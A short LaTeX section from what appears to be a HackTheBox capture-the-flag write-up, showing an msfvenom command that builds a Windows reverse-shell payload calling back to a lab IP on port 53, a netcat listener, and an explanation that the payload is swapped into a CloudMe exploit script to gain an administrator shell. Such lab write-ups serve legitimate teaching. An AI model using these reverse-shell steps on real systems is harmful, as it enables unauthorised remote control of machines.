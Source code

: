 \documentclass[../main.tex]{subfiles}
\begin{document}
Commands:
\begin{lstlisting}
msfvenom -p windows/shell_reverse_tcp LPORT=53 LHOST=10.10.14.71 -f python -v payload //local machine
sudo nc -lvnp 53 //local machine
\end{lstlisting}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_20_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_23_Boyan.PNG}

So before you run the script you should run the "msfvenom" command. This is going to create a payload that is needed to be replaced in the ClouMe script. Which we must then execute while we are listening on port 53 in order to be able to make a connection. 

Finally after a long way, as you can see above, we are connected to the administrator shell.
\end{document}
